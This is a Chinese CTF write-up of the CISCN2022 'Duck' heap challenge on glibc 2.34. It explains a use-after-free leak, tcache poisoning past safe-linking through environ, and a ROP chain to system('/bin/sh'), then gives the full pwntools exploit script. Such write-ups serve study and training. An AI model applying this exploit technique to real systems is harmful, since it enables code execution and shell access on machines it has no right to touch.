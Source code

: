 ### CISCN2022 Duck Write Up

该题目附件我已经上传到Github，有需要的可以下载，复现这题时，我是使用的NSSCTF提供的远程环境。

此题是一道libc2.34的题，libc2.34与2.33最大的不同就是移除了以往常用的malloc_hook，free_hook等hook函数，导致利用上较为困难，2.34与2.33一样，chunk的fd指针都采用了异或加密，在申请chunk时便会异或解密，所以当我们改写fd指针时，只需要将泄露出的堆的基地址右移12位后与当前地址异或即可。glibc中采用的异或加密的规则并不难：将堆的基地址右移12位后与当前地址异或。

这道题逆向难度并不大，通过IDA静态分析就可以很明显的看出，在free时存在UAF，所以可以很轻松的泄露堆的基地址（用于异或加密）与libc。

先多申请几个chunk（大于8个），把最后一个留下其余的全部释放，并用0号来泄露堆的基址，将泄露的地址左移12位即可得到堆的基地址。由于chunk的大小为0x110，所以在填满tcache后，剩下的不与top chunk相邻的chunk将放入unsorted bin中，这也是前面要申请大于8个chunk的原因，然后再通过UAF泄露main arena的地址，从而泄露libc。

泄露libc之后找到environ，通过UAF改写tcache的fd指针，并将其fd指针改为environ的地址，分配出去以后，由于environ保存的是当前进程的环境变量，这里面存放了栈上的地址，泄露出environ的值后并计算出edit的地址之后，再次修改fd指针，分配到edit返回地址之后写入ROP调用链，(**注意，由于是64位的程序，前六个参数通过寄存器传递，所以需要控制RDI寄存器来传入"/bin/sh\x00"作为system的参数**)即可getshell。(我用one_gadget去打没有成功)

***注：此处system若是无法使用，可改为execve，效果应该是一样的***

最终exp如下：

```python
from pwn import *
io=process('./pwn')
#io=remote('1.14.71.254',28045)
elf=ELF('./pwn')
libc=ELF('./libc.so.6')

context(arch='amd64', os='linux', log_level='debug')

def add():
    io.recvuntil('Choice: ')
    io.sendline('1')

def delete(index):
    io.recvuntil('Choice: ')
    io.sendline('2')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def show(index):
    io.recvuntil('Choice: ')
    io.sendline('3')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def edit(index,size,content):
    io.recvuntil('Choice: ')
    io.sendline('4')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))
    io.recvuntil('Size: \n')
    io.sendline(str(size))
    io.recvuntil('Content: \n')
    io.sendline(content)


for i in range(9):
    add()

for i in range(8):
    delete(i)  

show(7)

main_arena = u64(io.recvuntil(6).ljust(8, b'\x00'))
main_arena = main_arena - 96

libc_addr= main_arena-libc.sym['main_arena']

print("libc_addr: " + hex(libc_addr))
print("main_arena: " + hex(main_arena))



show(0)
heap_base=u64(io.recv(5).ljust(8,b'\x00'))
heap_base=heap_base<<12
print("heap_base: "+hex(heap_base))

for i in range(5):
    add()

environ_addr=libc_addr+libc.sym['environ']

print("environ_addr: " + hex(environ_addr))

edit(1,0x10,p64(environ_addr^(heap_base>>12))+p64(0))

add()         
add()         

show(15)
stack_addr = u64(io.recvuntil(6).ljust(8, b'\x00'))
stack_addr = stack_addr - 0x168

print("stack_addr: "+ hex(stack_addr))

delete(9)
delete(10)
edit(10,0x10,p64(stack_addr^(heap_base>>12))+p64(0))

add()  
add()  

bin_sh_addr=libc_addr+next(libc.search(b'/bin/sh'))

sys_addr = libc_addr + libc.sym['system']
pop_rdi_ret = libc_addr + next(libc.search(asm('pop rdi;ret;')))

#pop_rdi_ret=0x1703

#one_gadget=libc_addr+0xda867

payload=p64(0)*3+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)

#payload=p64(0)*3+p64(one_gadget)

edit(17,0x30,payload)

io.interactive()
```

